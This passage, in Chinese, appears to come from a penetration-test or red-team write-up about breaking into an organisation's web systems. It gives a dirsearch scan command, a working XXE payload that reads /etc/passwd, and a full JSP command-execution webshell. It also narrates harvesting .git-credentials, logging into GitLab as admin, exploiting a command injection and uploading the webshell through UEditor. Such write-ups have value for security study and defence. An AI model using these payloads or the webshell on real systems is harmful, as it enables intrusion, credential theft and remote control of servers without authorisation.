 dirsearch进行目录扫描:

```java
1.  cat 200\_\*.txt|xargs -I {} dirsearch --random-agents -t 20 -u {} -e \*  
```

FUZZ没有很大收获，9000端口开放了一个Gitlab服务，GitLab Community Edition 8.15.1，其他端口404，并没有路径信息。

针对9000端口的Gitlab，盲尝试[CVE-2021-22205](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-22205) Github上面的脚本，发现没有成功，考虑到这个版本比较老，故可以先留着，后面如果没有新思路，回头再研究它，毕竟随便整整一个老版本的1day不是很大问题。

0x04 撕口子:命令执行
=============

 到了这一步，很大概率是能获得Shell的，但是有一个情况需要考虑，redis那台机器可能并不能够出网，后续需要改成监听类型的木马，利用起来稍微有点麻烦，不是很适合短期作战的思路，目前的想法还是想找一条直接的路进入内网中，故回到SQL注入那个点，利用SQL注入获取到的账号密码登陆进网站后台。

观察JS发现存在Ueditor的路径，要是asp.net的话还好说，可能可以GetShell，jsp的话一般没有什么漏洞，简单上传一个图片进行测试，如预期一样并不存在配置不当。通过继续点击各个功能，有个设置题目答案选项的点，使用了XML类型的数据，插入XML注入语句进行测试

```java
1.  <?xml version="1.0" encoding="utf-8"?>   
2.  <!DOCTYPE items \[    
3.  <!ENTITY test SYSTEM "file:///etc/passwd"\> \]>  
4.  <items>  
5.  <item><serial>1</serial><answer>0</answer><title>&test;</title></item>  
6.  <item><serial>2</serial><answer>1</answer><title><!\[CDATA\[2\]\]></title></item>  
7.  <item><serial>3</serial><answer>0</answer><title><!\[CDATA\[3\]\]></title></item>  
8.  <item><serial>4</serial><answer>0</answer><title><!\[CDATA\[4\]\]></title></item>  
9.  </items>  
```

回到题目的答案选项，发现可以正常回显出信息，java的XXE支持file://协议列目录，故可以收集到很多有趣的信息，比如.git-credentials

![5.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-edf85dc20c1a1f2a7aec0c7a339363120297b9f7.png)

利用文件里面的账户信息，我们可以尝试去9000端口的GitLab进行登陆，很好，Success，Admin权限。

![6.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-a3d2b6a703b699d3045411eb4234e6f0eca4e2e0.png)

翻找一番项目，根据域名前缀，很快定位到相关的项目的GitUtilController.java文件中的other方法，将可控的参数传进去gitCmds方法进行命令拼接，造成命令执行，阅读项目中的路由接口，很容易就可以构造出利用的POC。

![7.png](https://shs3.b.qianxin.com/attack_forum/2022/03/attach-afe7ca7cacebe53f830d7d3e7b4dbc8b90af4a15.png)

原本打算直接反弹Shell，但是很迷，虽然机器出网，但是没办法对我的VPS或者reverse-shell.sh发起请求，而且tomcat也不支持传入类似-、｜之类的符号，导致没办法正常写入文件，为了省事，我最终选择通过ueditor上传CMD JSP和蚁剑一句话，比较顺利。

```java
1.  <%  
2.      **if**("023".equals(request.getParameter("pwd"))){  
3. java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();  
4.          **int** a = -1;  
5.          byte\[\] b = **new** byte\[2048\];  
6.          out.print("");  
7.          **while**((a=in.read(b))!=-1){  
8.              out.println(**new** String(b));  
9.          }  
10.         out.print("");  
11.     }  
12. %>  
```
